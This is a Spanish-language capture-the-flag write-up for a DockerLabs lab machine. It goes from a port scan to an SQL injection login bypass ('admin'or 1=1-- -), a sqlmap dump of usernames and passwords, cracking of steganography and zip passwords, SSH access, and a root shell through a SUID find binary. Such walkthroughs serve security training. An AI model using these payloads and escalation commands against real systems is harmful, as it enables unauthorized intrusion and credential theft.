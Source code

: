 Hoy maquina de [dockerlabs](https://dockerlabs.es)

![dockerlabs](./imagenes/mirame.png)

Autor:yo(maciiii___)

Dificultad: Fácil

# INTRUSION

Comenzamos haciendo un escaneo de nmap

```css
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.3
```

```ruby
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 17:09 -03
Initiating ARP Ping Scan at 17:09
Scanning 172.17.0.3 [1 port]
Completed ARP Ping Scan at 17:09, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:09
Scanning 172.17.0.3 [65535 ports]
Discovered open port 80/tcp on 172.17.0.3
Discovered open port 22/tcp on 172.17.0.3
Completed SYN Stealth Scan at 17:09, 1.68s elapsed (65535 total ports)
Nmap scan report for 172.17.0.3
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-08-10 17:09:34 -03 for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:03 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

No se ve nada interesante mas que el puerto 22 pero por ahora no nos interesa.

Continuamos por el navegador y vemos esto:

#### PUERTO 80:

![puerto80](./imagenes/puerto80.png)

Al perecer es un panel de login, por lo que probaremos con las credenciales típicas:
`admin:admin`

`root:root`

pero como ninguna funciona podemos pasar a probar poner una comilla `'` si nos da el error significa que estamos frente a SQLi. Al probar nos da el siguiente error:

![error](./imagenes/error.png)

Sabiendo esto podriamos intentar nuevamente con el usuario admin pero poniendo `admin'or 1=1-- -` como usuario y de contraseña lo que sea. Una vez hecho veremos un panel que nos deja consultar el clima, pero al no tener nada interesante tendremos que usar sqlmap.

Para sqlmap pondremos en el terminal:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch --dbs
```

lo que nos dice que hay dos bases de datos:

```mysql
available databases [2]:
[*] information_schema
[*] users
```

La que nos interesa a nosotros es la `users` por lo que ahora pondremos:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch -D users --tables
```

lo que nos mostrará las tablas de la base de datos `users`. 

```mysql
Database: users
[1 table]
+----------+
| usuarios |
+----------+
```

El comando nos dice que hay una tabla llamada usuarios, por lo que ahora listaremos la tabla con:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch -D users -T usuarios --dump
```

```mysql
Database: users
Table: usuarios
[4 entries]
+----+------------------------+------------+
| id | password               | username   |
+----+------------------------+------------+
| 1  | chocolateadministrador | admin      |
| 2  | lucas                  | lucas      |
| 3  | soyagustin123          | agustin    |
| 4  | directoriotravieso     | directorio |
+----+------------------------+------------+

```

Ya teniendo todos los usuarios, vemos que hay uno medio anormal llamado `directorio:directoriotravieso`, ya que no parece un nombre común y se llama directorio, podriamos entrar desde el navegador a "directorios" y "directoriotravieso".

Luego de entrar a ambos, el único que si existe es "directoriotravieso", y dentro tiene una imagen, la descargamos y hacemos Esteganografía. Para hacerlo, podemos usar la herramienta `steghide`, con el comando:

```css
steghide extract -sf miramebien.jpg
```

 Al ejecutar el comando, nos pide un salvoconducto, pero como no lo tenemos le damos al enter. Como no podemos extraer nada, podemos tratar de hacer un ataque de diccionario al archivo con la herramienta `stegseek` usando el comando:

```css
stegseek extract -sf miramebien.jpg -wl /usr/share/wordlists/rockyou.txt
```

```css
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "chocolate"
[i] Original filename: "ocultito.zip".
[i] Extracting to "miramebien.jpg.out".
```

Vemos que dentro hay un .zip llamado "ocultito.zip" y que el salvoconducto es "chocolate", por lo que volvemos a ejecutar `steghide` y esta vez ponemos el salvoconducto "chocolate".

Esto nos deja un .zip el cual si intentamos extraer tiene contraseña, por lo que tendremos que utiliza `zip2john`para extraer el hash y luego crackearlo usando la herramienta `john the ripper`. Ejecutamos lo siguiente:

```css
zip2john ocultito.zip > hash.txt
```

Y luego

```css
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

con esto ya tenemos la contraseña del zip:

```ABAP
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stupid1          (ocultito.zip/secret.txt)     
1g 0:00:00:00 DONE (2024-08-10 17:33) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Vemos que la contraseña del zip es "stupid1", por lo que ahora si podemos extraerlo usando el comando `unzip ocultito.zip` y poniendo la contraseña.

Esto nos deja un .txt llamado "secret.txt" que al parecer tiene la contraseña del ssh, lo probamos con `ssh carlos@172.17.0.3` y listo, estamos dentro.

# ESCALADA DE PRIVILEGIOS

Ahora somos el usuario `carlos` por lo que nos fijamos si podemos ejecutar algo con sudo usando `sudo -l` y nada. Por lo que veremos si hay algún binario que podamos aprovechar en el SUID, para verlo ejecutamos:

```ABAP
find / -perm -4000 2>/dev/null
```

```css
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
/usr/bin/chsh
/usr/bin/find
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
```

Como vemos, esta el binario `find`, si buscamos en [GTFObins](https://gtfobins.github.io) vemos que podemos aprovecharnos de el para escalar usando el comando:

```ruby
/usr/bin/find . -exec /bin/sh -p \; -quit
```

Al usarlo escalamos a root.

![root](./imagenes/root.png)
